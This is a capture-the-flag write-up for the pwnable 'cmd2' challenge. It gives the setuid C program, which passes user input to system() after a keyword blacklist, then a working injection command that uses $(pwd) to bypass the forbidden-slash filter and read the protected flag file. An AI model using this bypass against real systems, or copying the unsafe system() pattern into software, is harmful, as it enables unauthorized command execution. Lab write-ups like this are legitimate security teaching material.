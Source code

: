# cmd2

The home folder of this challenge contains the following:

```
$ ls -l  
total 20
-r-xr-sr-x 1 root cmd2_pwn 8794 Dec 21  2015 cmd2
-rw-r--r-- 1 root root      586 Dec 21  2015 cmd2.c
-r--r----- 1 root cmd2_pwn   30 Jul 14  2015 flag
```

### cmd2.c
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
In this challenge, we have an updated blacklist of words and symbols. Setting the `PATH` variable is not an option anymore, because the `=` character is blacklisted. The most problematic blacklisted character is the forward slash `/`, because we need that character to execute programs ('./program'), if they are not defined in the `PATH` variable. This also includes the execution of self-written scripts, where you can execute whatever you want without words being blacklisted. Therefore it is important to somehow insert the `/` symbol in our command.

There are only a few commands available when the `PATH` is empty and when you cannot use the forward-slash. One of those commands is `pwd`. `pwd` return the absolute path of the current directory. The idea is to `cd` to the root folder, and execute `pwd`, which returns `/`. That is also exactly the character that we need in our command! `$(pwd)` will insert the result of executing the `pwd` command in place.

To solve this challenge, we navigate to the root directory and execute our self-constructed command with `/` replaced with `$(pwd)`. Because we want that the shell executes `$(pwd)` on the moment that the working directory is set to the root directory, we need to escape the `$` symbol to prevent that `$(pwd)` will be executed before entering `./cmd2`.

```
$ ./cmd2 "cd ..; cd ..; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)*"
cd ..; cd ..; $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)*
[truncated]
FuN_w1th_5h3ll_v4riabl3s_haha
```
